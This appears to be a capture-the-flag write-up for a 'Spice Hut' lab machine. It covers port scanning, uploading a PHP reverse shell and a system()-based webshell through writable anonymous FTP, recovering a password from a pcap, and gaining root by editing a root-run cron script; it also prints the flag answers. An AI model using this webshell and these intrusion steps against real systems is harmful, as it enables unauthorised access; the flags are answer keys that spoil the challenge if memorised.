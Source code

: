 # Task 1 Welcome to Spice Hut!

**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

### What is the secret spicy soup recipe?

`nmap -sS -Pn -p- -T4 -vv 10.10.70.37`

We see ports 21, 22 and 80 open.

Check out the website, no robots.txt, some comments in the source code referencing when they will update, but nothing really stands out.

`gobuster dir --url 10.10.70.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

`/files/notice.txt` reveals `Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.`

Potential username `Maya`

Further nmap scans `nmap -sS -Pn -p 22,21,80 -sC -sV -T4 -vv 10.10.70.37` indicated that the FTP site was potentially writable

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.4.18.254
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Lets try uploading a remote shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Saving the php file as `shell.php5`, connecting via FTP, change to the ftp directory and `put shell.php5`.
Setup the listener `nc -vnlp 4444`
In a browser navigate to `/files/ftp/shell.php5` and the remote shell is available.

Running as `www-data` from the root directory

`cat recipe.txt`
`Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

Answer: `love`

### What are the contents of user.txt?

A directory `/home/lennie` we don't have access to but the user.txt would presumably be in that.

In `/incidents` there is a `suspicious.pcapng`.  Tshark is not installed, we can't get access to `/var/www/`.
`sudo -l` showed no results

Create a webshell
```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
Upload it using the FTP and navigate to `/files/ftp/webshell.php?cmd=pwd` to verify it works
`/files/ftp/webshell.php?cmd=cp%20/incidents/suspicious.pcapng%20/var/www/html/files/ftp/suspicious.pcapng`

Grab the file via FTP or browser.

Looking through the PCAP we find a few interesting entries
Filtering on `ip.addr == 192.168.22.139` number `177` we find where data had been exfiltrated, but also capture a sudo attempt on www-data, with the password `c4ntg3t3n0ughsp1c3`.  This could be the actual cred for www-data or lennie's password.  But since entry `180` we see a failure, we can assume it is Lennie's.

`ssh lennie@10.10.70.37` and use the password.
`cat user.txt`

Answer:  `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`


### What are the contents of root.txt?


Looking at Lennie's Documents, nothing interesting, no hidden files in the profile.
`sudo -l` Lennie doesn't have permission for sudo
Looking at the scripts folder, there is a planner.sh, owned by root, and it runs `/etc/print.sh` owned by Lennie.  We can modify `/etc/print.sh` to get the root flag. This fails when run manually, however further investigation shows that creating a file from `print.sh` (eg: adding a line `date >> /tmp/file.txt`) creates a file in `/tmp/` every minute or so, with root as the owner.


Oddly enough, there is no `/etc/crontab` for this account

Modify `print.sh` with `cat /root/root.txt >> /tmp/root.txt` and wait for it to run.

We could gain root access by dropping a remote shell in `print.sh` and creating a listener.

Answer: `THM{f963aaa6a430f210222158ae15c3d76d}`
